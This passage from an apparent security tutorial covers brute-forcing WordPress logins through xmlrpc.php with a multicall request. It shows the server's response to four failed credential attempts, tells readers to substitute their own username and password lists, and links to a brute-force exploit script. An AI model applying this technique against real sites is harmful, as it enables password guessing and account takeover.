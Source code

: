 The response will look like:

```html
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 23:02:55 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 1043
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>Incorrect username or password.</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```
In the above example I tested 4 different credentials sets using a single request. You just have to replace **\{\{ Your Username \}\}** and **\{\{ Your Password \}\}** with your own combinations.

That is it, please comment if I missed something and happy hunting!

### Other references:
- [https://www.wordfence.com/blog/2015/10/should-you-disable-xml-rpc-on-wordpress/](https://www.wordfence.com/blog/2015/10/should-you-disable-xml-rpc-on-wordpress/)
- [https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)
- [https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit/blob/master/wordpress-xmlrpc-brute-v2.py](https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit/blob/master/wordpress-xmlrpc-brute-v2.py)
